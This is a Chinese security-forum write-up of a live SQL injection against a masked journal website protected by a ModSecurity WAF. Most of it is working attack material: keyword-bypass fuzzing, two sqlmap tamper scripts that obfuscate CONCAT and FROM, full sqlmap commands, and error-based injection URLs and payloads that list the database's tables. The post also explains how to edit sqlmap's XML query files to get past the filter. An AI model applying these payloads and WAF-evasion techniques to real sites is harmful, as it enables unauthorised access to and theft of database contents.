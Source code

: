 

# 一次注入实战引发的SQLMAP修改之路 - 先知社区

一次注入实战引发的SQLMAP修改之路

- - -

# 一、 前言

SQLmap的payload修改一般有两种方式:  
1、编写tamper  
2、修改/添加sqlmap的xml文件语句自定义payload

# 二、 注入点Fuzz

选中目标网站：[http://www.xxxx.com/journals\_desc.php?id=40](http://www.xxxx.com/journals_desc.php?id=40)  
单引号报错，对单引号进行转义，id=0=0测试回显正常，int型注入

[![](assets/1698897395-087452846f83c4df303b0a606038efba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150651-a71aa4bc-11ad-1.png)

Order by 猜字段值为7  
Waf为Modsec，直接使用union select被拦截：

[![](assets/1698897395-0bc38b7baadbae97d5fa24fb67b1444b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150707-b0415338-11ad-1.png)

```plain
Fuzz：
       单个union    #不拦截
       单个select    #不拦截
Union select  #拦截
union /**/ select #拦截
/*!00000union*/ select #内联注释，不拦截
/*!50000union*/ select 1,2,3,4,5,6,7
```

[![](assets/1698897395-f7804b45023c48eee7fa5658800279b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150725-baf1a594-11ad-1.png)

此处应该是涉及到强弱类型转换的问题，int为强类型，猜测对应的字段为弱类型  
解决方法：  
\[1\]使用string方法、但单引号’ 被被转义了,所以该方法行不通  
\[2\]采用报错注入

# 三、 编写简单Tamper脚本绕过

（使用自带的modsecurityzeroversioned.py不能绕过）  
报错注入过程中，发现主要过滤关键词from和函数concat（）  
1、concat()被过滤:`concat()-->concat/**/()`  
对应tamper脚本concat2concatcomment.py如下：

```plain
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("CONCAT","CONCAT/**/")
```

2、from被过滤，`from`\-->`/*!44144from*/`  
对应tamper脚本from.py如下：

```plain
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("FROM","/*!44144FROM*/")
```

python sqlmap.py -u "[https://www.xxxx.com/journals\_desc.php?id=66](https://www.xxxx.com/journals_desc.php?id=66)" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment" --force-ssl --technique=E

[![](assets/1698897395-9becb52fb7db2f4735203ffff4604e40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191203115117-291b7916-1580-1.png)

`--dbs`读取（可以比对一下使用tamper脚本和使用tamper脚本后语句）  
payload in sqlmap:

```plain
AND (SELECT 8403 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b707071,(SELECT REPEAT(0x34,1024)),0x71627a7a71,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[![](assets/1698897395-1ba1869e1b717f76159cef301c6a84d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191203114925-e65a320c-157f-1.png)

`--tables`读取，很遗憾，读取失败

[![](assets/1698897395-7bd22600481d4f3bc540b2ae5c37e6ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150750-ca51e544-11ad-1.png)

再次把它的payload拿到本地测试，也是行不通的。语句很长，需要慢慢fuzz究竟是哪里被拦截、组合、函数、关键字？  
但是，，，，坑的是竟然不是因为过滤引起的？？？？

# 四、 修改SQLmap的xml文件语句

实在不行了，去用手工注了出来，但是用SQLmap就是跑不出来？？？  
再去看一下SQLmap的payload是不是有问题，咋一看没什么大问题，所以我一开始也忽略了，卡了好久。也就是这里涉及到了直接修改SQLmap自带的语句。  
大家自行比较一下下面这两条语句看看能不能看出问题~  
1、

```plain
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.TABLES%20where%20table_schema=database())%20),1)
```

2、

```plain
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.`TABLES`%20where%20table_schema=database())%20),1)
```

下面讲几个概念  
\[1\]table和colums在mysql中是特殊字符  
\[2\]反引号是sql语言的转义字符  
\[3\]在mysql中的sql语句为了避免与系统冲突给表名加上反引号 ，（但在指定其他数据库时不能加，否则会被认作是表）

我们可以看到这里sqlmap的payload,对于information\_schema.tables中的tables并没有加反引号,指引到/xml/queries.xml

```plain
information_schema.tables --> information_schema.`tables`
```

当然，columns也需要修改

```plain
information_schema.columns --> information_schema.`columns`
```

修改之后跑表：

```plain
python sqlmap.py -u "https://www.xxxx.com/journals_desc.php?id=66" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment"   --technique=E   -D mililink_main --tables
payload in sqlamp（比对一下payload，看看效果）:
66 AND (SELECT 9571 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b7a6b71,(SELECT MID((IFNULL(CAST(table_name AS CHAR),0x20)),1,54) /*!44144FROM*/ INFORMATION_SCHEMA.`TABLES` WHERE table_schema IN (0x6d696c696c696e6b5f6d61696e) LIMIT 15,1),0x7171767071,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[![](assets/1698897395-bd02031ad32263b0be78e30f2f271f84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150800-d00c86a6-11ad-1.png)

跑列值也是一样的，就不多说了，直接上图

[![](assets/1698897395-fb3e60d35abca54e6b3b5afe8b5497e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150805-d34505f0-11ad-1.png)

五、 关于SQLmap自定义payload的一些思考  
SQLmap的payload修改，其实并不复杂。

tamper脚本的编写，可以参考上边的from.py和concat2concatcomment.py，它其实是有固定格式的。简单的自定义paylaod只需要在def tamper(payload, \*\*kwargs)函数中写入替换语句即可。可参考[https://payloads.online/archivers/2017-06-08/1](https://payloads.online/archivers/2017-06-08/1)

修改/添加sqlmap的xml文件语句来自定义payload。需要找到对应的xml文件，然后修改xml文件中的语句。  
查询语句在\\sqlmap\\data\\xml\\ queries.xml定义，若想自定义查询语句则只需要修改/添加想要执行的查询语句即可，如上边对INFORMATION\_SCHEMA.`TABLES`的修改  
不同的注入方式使用的语句则需要在对应的注入方式中的xml语句进行修改，在\\sqlmap\\data\\xml\\payloads\\文件下

[![](assets/1698897395-36ccc568880d27790137521e93a3cf48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150815-d8ab5148-11ad-1.png)

假若我们需要修改error-base注入方式的payload，则需要在/xml/payload/error\_based.xml中修改
